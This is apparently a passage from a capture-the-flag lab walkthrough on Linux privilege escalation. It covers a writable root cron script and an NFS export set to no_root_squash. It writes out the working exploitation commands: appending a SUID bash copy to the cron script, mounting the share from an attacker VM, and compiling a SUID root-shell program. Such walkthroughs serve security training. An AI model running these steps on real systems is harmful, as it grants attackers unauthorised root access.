 <h3>Detection</h3>

<p>Linux VM<br>

1. In command prompt type: <code>cat /etc/crontab</code><br>
2. From the output, notice the script “overwrite.sh”<br>
3. In command prompt type: <code>ls -l /usr/local/bin/overwrite.sh</code><br>
4. From the output, notice the file permissions.</p>

<h3>Exploitation</h3>

<p>Linux VM<br>

1. In command prompt type: <code>echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh</code><br>
2. Wait 1 minute for the Bash script to execute.<br>
3. In command prompt type: <code>/tmp/bash -p</code><br>
4. In command prompt type: <code>id</code></p>

<h3 align="left">Answer the question below</h3>

> 18.1. <em>Click 'Completed' once you have successfully elevated the machine</em><br><a id='18.1'></a>
>> <strong><code>No answer needed</code></strong><br>

![image](https://github.com/user-attachments/assets/aee61937-f332-4172-bbff-e7f70db7fbd6)

![image](https://github.com/user-attachments/assets/4bd5020f-cdf5-456f-9705-6270cf1bbf7a)


<br>

<h2>Task 19 . Privilege Escalation - NFS Root Squashing</h2>

<h3>Detection</h3>

<p>Linux VM<br>

1. In command line type: <code>cat /etc/exports</code><br>
2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.</p>

<h3>Exploitation</h3>

<p>Attacker VM<br>

1. Open command prompt and type: <code>showmount -e 10.10.223.247</code><br>
2. In command prompt type: <code>mkdir /tmp/1</code><br>
3. In command prompt type: <code>mount -o rw,vers=2 10.10.223.247:/tmp /tmp/1</code><br>
In command prompt type: <code>echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c</code><br>
4. In command prompt type: <code>gcc /tmp/1/x.c -o /tmp/1/x</code><br>
5. In command prompt type: <code>chmod +s /tmp/1/x</code></p>

<p>Linux VM<br>

1. In command prompt type: <code>/tmp/x</code><br>
2. In command prompt type: <code>id</code></p>

<h3 align="left">Answer the question below</h3>
